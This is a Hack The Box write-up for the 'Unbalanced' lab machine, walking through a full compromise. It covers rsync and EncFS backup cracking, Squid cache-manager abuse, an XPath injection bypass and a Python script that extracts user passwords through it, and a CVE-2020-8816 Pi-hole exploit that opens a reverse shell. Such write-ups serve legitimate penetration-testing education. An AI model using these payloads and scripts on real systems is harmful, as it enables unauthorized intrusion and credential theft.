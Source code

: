 ```yaml
---
title : Unbalanced - Writeup
---
```


_**Jan 05, 2021**_

[Unbalanced](https://www.hackthebox.eu/home/machines/profile/268) Writeup


## Nmap Scan :
```
bvr0n@kali:~$ nmap -sC -sV 10.10.10.200
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
```

## Rsync :

We can liste all modules through this commands :

```
bvr0n@kali:~$ rsync -av --list-only rsync://10.10.10.200:873
conf_backups    EncFS-encrypted configuration backups
```

We can see that there is a shared folder, let's see what's inside :

```
bvr0n@kali:~$ rsync -av --list-only rsync://10.10.10.200:873/conf_backups
receiving incremental file list
drwxr-xr-x          4,096 2020/04/04 11:05:32 .
-rw-r--r--            288 2020/04/04 11:05:31 ,CBjPJW4EGlcqwZW4nmVqBA6
-rw-r--r--            135 2020/04/04 11:05:31 -FjZ6-6,Fa,tMvlDsuVAO7ek
-rw-r--r--          1,297 2020/04/02 09:06:19 .encfs6.xml
-rw-r--r--            154 2020/04/04 11:05:32 0K72OfkNRRx3-f0Y6eQKwnjn
-rw-r--r--             56 2020/04/04 11:05:32 27FonaNT2gnNc3voXuKWgEFP4sE9mxg0OZ96NB0x4OcLo-
-rw-r--r--            190 2020/04/04 11:05:32 2VyeljxHWrDX37La6FhUGIJS
```

Let's grab the whole folder :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ rsync -av rsync://10.10.10.200:873/conf_backups conf_backups/.
```

And decrypt it, but first let's turn it to somethin that JohnTheRipper can understand :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ /usr/share/john/encfs2john.py conf_backups/ > hashed.txt
bvr0n@kali:~/CTF/HTB/Unbalanced$ sudo john hashed.txt --wordlist=/home/bvr0n/Documents/rockyou.txt
[sudo] password for bvr0n: 
Using default input encoding: UTF-8
Loaded 1 password hash (EncFS [PBKDF2-SHA1 128/128 AVX 4x AES])
Cost 1 (iteration count) is 580280 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bubblegum        (conf_backups/)
```

Now all we have to do is decrypt them :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ encfs ~/CTF/HTB/Unbalanced/conf_backups/ ~/CTF/HTB/Unbalanced/output/
EncFS Password: 
```

Using a basic technick get us the password : 

```
bvr0n@kali:~/CTF/HTB/Unbalanced/output$ cat * | grep -i passwd
cachemgr_passwd Thah$Sh1
```

Looks like we got Cache Manager's Password, [Check Here](http://etutorials.org/Server+Administration/Squid.+The+definitive+guide/Chapter+14.+Monitoring+Squid/14.2+The+Cache+Manager/) for more information about it :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache

Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
10.10.14.64                                    N  -221   0
10.10.14.251                                   N  -5322   0
10.10.15.11                                    N  -8266   0
```

When we go to http://172.31.179.1/intranet.php through the proxy, we get a login form , we try some XPATH Injections and we get something :

```
Username : blah' or 1=1 or 'a'='a
Password : blah
```
Now we have to write a scripte to grabe the passwords for us.

After writing an exploit (Thanks to [m3dsec](github.com/m3dsec) for the help) we get the creds for ssh :

Final [m3dsec](github.com/m3dsec) script :
```python
!/usr/bin/python3
import requests
import string

squid = {"http":"http://10.10.10.200:3128"}
url = 'http://172.31.179.1/intranet.php'

alphabet = string.ascii_letters + string.digits + '@?><":}{)(*&^%$#!~'
users = ['rita','jim','bryan','sarah']
l = 0
fp = ''

for u in users:
    try:
        print("[*] Retriving " + u + "'s password..")
        for i in range(1, 30):
            # for every i, check if character is in that number range
            for c in alphabet:
                paylaod = "' or username='" + u + "' or substring(Password," + str(i) + ",1)='" + str(c) + "' or'"
                form_data = {"Username":u,"Password":paylaod}
                #print(form_data)
                r = requests.post(url, proxies=squid,data=form_data)
                if len(r.text) != 6736 and u in r.text:
                    fp += c
                    print("[*] Found a new character : " + str(c))
                    print("[*] " + u + ":" + fp)
            l += 1
        print("[*] " + u + ":" + fp)
    except KeyboardInterrupt:
        print()
        continue
```
```
rita : pass*******
jim : sta********eaven
bryan : ireal***********egum!!!
sarah : sara*****h'
```
Login to ssh with `bryan` give us the user flag.

After a while and lot of Enumeration i realised that we need to Port-Forward to the Pi-Hole Admin console :
```
bvr0n@kali:~$ ssh -L 8088:localhost:8080 -N -f bryan@10.10.10.200
bvr0n@kali:~$ nmap localhost -p 8088

PORT     STATE SERVICE
8088/tcp open  radan-http
```

Now we can access it, Password is : `admin`

After pooking arount i found this [exploit](https://github.com/AndreyRainchik/CVE-2020-8816), let's give it a try :
```
bvr0n@kali:~/CTF/HTB/Unbalanced$ python3 CVE-2020-8816.py http://127.0.0.1:8088/ admin 10.10.14.44 4444
bvr0n@kali:~/CTF/HTB/Unbalanced$ nc -lnvp 444

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /root
$ ls
ph_install.sh
pihole_config.sh
```

After checking `pihole_config.sh` i found something pretty intresting :
```
# Set web admin interface password
/usr/local/bin/pihole -a -p 'bUbBl3********Ry0n3!'
```
That was the Root password for ssh !!!
